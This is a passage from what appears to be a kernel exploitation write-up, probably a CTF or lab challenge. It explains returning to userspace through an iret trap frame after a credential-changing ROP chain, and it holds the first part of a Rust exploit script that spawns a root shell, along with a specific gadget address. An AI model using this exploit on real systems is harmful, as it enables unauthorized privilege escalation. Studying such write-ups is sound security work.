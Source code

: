 ```C
struct trap_frame {
    uint32_t eip; // where we return
    uint32_t cs;
    uint32_t eflags;
    uint32_t esp;
    uint32_t ss;
};
```

So what we need to do for a successfull return to userspace is pointing the `eip` of the `trap_frame` structure to the address of a function of our program that will spawn `/bin/sh`. As our ROPchain changes the current process credentials to root, this effectively spawn a root shell for us. We also need to take care all the other fields are valid.

A relevant gadget for the `iret` instruction is at address `0xC101F504` in the kernel image. I essentially found these gadgets using either `ROPgadget` or the built-in IDA search feature. The addresses in the binary are the same as in memory because there is no kASLR. So we could still look at kallsyms and calculate offsets to the gadget from that, but it's not necessary there.

Finally, this allows us to build the following exploit script in Rust:

```Rust
use std::{arch::asm, fs::OpenOptions, io::Write};
use libc::geteuid;

#[repr(C, packed)]
#[derive(Copy, Clone)]
struct TrapFrame {
    eip: u32,
    cs: u32,
    eflags: u32,
    esp: u32,
    ss: u32
}

impl TrapFrame {
    pub fn to_bytes(self) -> [u8; 20] {
        unsafe { std::mem::transmute(self) }
    }
}

#[unsafe(no_mangle)]
extern "C" fn spawn_shell() {
    if unsafe { geteuid() } != 0 {
        println!("Seems like I get call but we're not root yet, very sad... :(");
        std::process::exit(1);
    }
    println!("Got root !!! Spawning shell...");
    std::process::Command::new("/bin/sh")
        .spawn().unwrap()
        .wait().unwrap();
}

fn get_cs() -> u32 {
    let mut cs: u32;
    unsafe {
        asm!("push cs",
            "pop {cs:e}",
            cs = out(reg) cs);
    }
    cs
}

fn get_eflags() -> u32 {
    let mut eflags: u32;
```